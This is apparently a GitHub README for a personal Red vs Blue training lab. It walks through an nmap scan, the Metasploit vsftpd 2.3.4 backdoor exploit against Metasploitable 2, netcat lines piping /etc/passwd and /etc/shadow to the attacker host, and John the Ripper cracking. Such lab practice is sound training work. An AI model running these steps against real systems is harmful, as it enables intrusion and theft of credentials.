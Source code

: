 # Offensive-and-Defensive-Cybersecurity-Project
 Overview
This repository documents my personal **Red vs Blue cybersecurity lab** — a simulated corporate network environment designed to practice **offensive** and **defensive** security skills.  
The goal of this project is to replicate real-world scenarios, execute attack simulations, and develop security controls to detect, mitigate, and respond to threats.

---

 🎯 Objectives
- Simulate realistic cyber attacks (Red Team)
- Harden systems and deploy defenses (Blue Team)
- Develop and test incident response playbooks
- Document findings, improvements, and lessons learned

---

🖥️ Lab Architecture

| Role          | OS / Tools Used | IP Address |
|---------------|-----------------|
| **Attacker**  | Kali Linux (Nmap, Metasploit,  John the Ripper) | 192.168.27.5
| **Victim**    | Metasploitable 2 (vulnerable Linux target) | 192.168.27.4
| **Defender**  | Ubuntu Desktop (UFW firewall, fail2ban, IDS/IPS) |

## ⚔️ Red Team Activities
- **Reconnaissance:** Nmap scanning for open ports & services
- **Exploitation:** Using Metasploit to gain shell access
- **Post-Exploitation:** Dumping `/etc/passwd` and `/etc/shadow` files
- **Password Cracking:** Using `John the Ripper` and `hashcat`
- **Persistence:** Establishing backdoors

---

## 🛡️ Blue Team Activities
- **System Hardening:** Removing unused services, updating packages
- **Firewall Rules:** UFW and iptables configurations
- **Intrusion Detection:** Installing and tuning Snort/Suricata
- **Log Analysis:** Reviewing `/var/log` for suspicious activity
- **Incident Response:** Blocking attacker IPs, restoring services

---

## 🛠 Tools & Technologies
- **Offense:** Nmap, Metasploit, Hydra, John the Ripper
- **Defense:** UFW, fail2ban, Snort, Wireshark
- **Utilities:** netcat, tcpdump, OpenVAS

- ---

--Step 1: VM Startup & Recon 

####Commands###

![Spinup](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/Spinupvm.png)

--ip a (check IP)
![verifyIP](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/verify%20ips.png)

--nmap -sS -sV -0 192.168.27.4
![nmap](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/nmapscan.png)

--Step 2:  Exploitation
###Commands####
--msfconsole 
![msfconsole](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/msfconsole.png)

--use exploit/unix/ftp/vsftpd_234_backdoor
--set RHOSTS 192.168.27.4
--run
![runPayload](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/runpayload.png)

--Step 3: File Extraction
###Commands###
--nc -lvnp 9001 > passwd
--nc -lvnp 9002 > shadow
--cat /etc/passwd | nc 192.168.27.5 9001
--cat /etc/shadow | nc 192.168.27.5 9002
![extract](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/extractfiles.png)

--Step 4: Password Cracking
###Commands###
--john shadow --format=md5crypt-long


## 📅 Progress Log
- **08/09/2025** Initial lab setup in VirtualBox
- **08/10/2025** Performed reconnaissance and scanning with Nmap
- **08/10/2025** Gained shell access to Metasploitable via FTP exploit
- **08/10/2025** Extracted password hashes and began cracking
- **08/11/2025** Implemented UFW firewall rules on Ubuntu defender
